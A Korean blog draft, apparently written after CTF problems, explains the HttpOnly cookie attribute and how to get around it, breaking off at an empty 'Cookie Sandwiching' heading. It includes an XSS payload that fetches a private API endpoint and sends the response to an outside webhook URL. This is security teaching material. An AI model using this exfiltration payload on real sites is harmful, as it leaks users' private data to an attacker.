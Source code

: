 ```yaml
---
title: Httponly bypass
published: 2025-10-15
description: " "
tags: [Analysis, flask, cookie_sandwiching]
category: Analysis
draft: true
---
```


COSS CTF와 드림핵에서 관련 문제가 출제 되었습니다. 풀기 힘들어서 해당 기법에 대해 정리해보려 합니다.

## Httponly
Httponly는 클라이언트 측에서 쿠키에 접근하지 못하게 하는 속성입니다.

```
Set-Cookie: session=abcd; httponly; secure; path=/;
```

위처럼 서버가 `Set-Cookie` 헤더에 httponly 필드를 포함시킨다면, javascript를 통한 쿠키 접근이 불가능해집니다.
이는 서비스에 XSS 취약점이 존재할 때 공격자가 쿠키를 탈취하기 어렵게 한다.

## Bypass Trick
### Data Exfiltration
세션을 탈취하지 않고 민감 정보만 빼오는 방식입니다. 리얼월드 버그바운티에서 XSS 트리거는 성공했지만 세션 탈취가 어려운 상황을 자주 마주할 수 있습니다.
XSS로 삽입된 스크립트 상에서 `fetch` 등을 사용해 민감 정보를 제공하는 api에 요청 후 응답으로 받은 정보만 웹훅으로 전송하는 방식으로 세션을 훔치지 않고도 민감 정보를 유출 할 수 있습니다.

```html
<script>
  fetch('/api/superprivateinfo')
  .then(r => r.text())
  .then(t => {
    location.href = `https://webhook?info=${t}`
  })
</script>
```

Bypass라고 할 수는 없겠지만 이런게 리얼월드에서 꽤 도움된다는거 정도만 써보고 싶었습니다

### Cookie Sandwiching
이 글을 쓰는 이유이기도 한 기법입니다.

